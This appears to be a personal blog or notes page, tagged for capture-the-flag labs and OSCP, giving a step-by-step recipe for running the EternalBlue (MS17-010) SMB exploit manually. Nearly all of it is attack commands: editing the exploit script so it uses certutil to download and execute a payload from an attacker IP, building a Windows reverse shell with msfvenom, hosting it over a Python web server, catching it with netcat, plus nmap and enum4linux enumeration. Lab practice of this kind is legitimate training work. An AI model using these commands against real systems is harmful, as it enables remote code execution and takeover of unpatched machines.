 ```yaml
---
date: 2025-05-01
categories: [Fixes, Linux]
title: "EternalBlue Manual Script"
tags: ['linux', 'eternalblue', 'smb', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "EternalBlue Manual Script"
---
```


# EternalBlue Manual Script

- Find it here:
<https://github.com/player23-0/Eternal_Blue_Manual_Exploit>

- Download 42315.py
- Download the mysmb.py
- Make sure 42315.py & mysmb.py is in the same folder
- Create msf exe (or use other rev shell command)
- In 42315.py - change:
  - Username and password
  - Uncomment this line and add rev shell/ create one:

`service_exec(conn, r'cmd /c certutil -urlcache -split -f http://192.168.119.189/w644444.exe w644444.exe & w644444.exe')`
- Change this line from letters to ascii_letters:

`service_name = ''.join([random.choice(string.ascii_letters) for i in range(4)])`

- Enumeration for eternal blue:

```bash
nmap --script smb-vuln-ms17–010.nse <target-ip>
```

- Prerequisites:

`pip3 install impacket`

- Download 42315.py and mysmb.py
- Make sure 42315.py & mysmb.py is in the same folder

- Use MSFvenom to create a reverse shell payload (allowed on the OSCP as long as you’re not using meterpreter).

`msfvenom -p windows/shell_reverse_tcp -f exe LHOST=<IP> LPORT=4444 > w644444.exe`
- Or use a different payload (revshells.com)

- Make changes in the exploit to add the authentication credentials and the reverse shell payload.
If you dont have credentials, check if guest is allowed:

`enum4linux -a <target_ip>`

Change USERNAME & PASSWORD values on lines 36&37

- Edit line 923:

`service_exec(conn, r'cmd /c certutil -urlcache -split -f http:// <Your IP>/w644444.exe w644444.exe & w644444.exe')`

Add your IP and change the payload if needed

- Setup Python server on port 80:

```bash
python3 -m http.server 80
```

- Now that we're done all three tasks, setup a listener on your attack machine.

```bash
nc -nlvp 4444
```

- Then run the exploit.

```bash
python 42315.py \<target_ip\>
```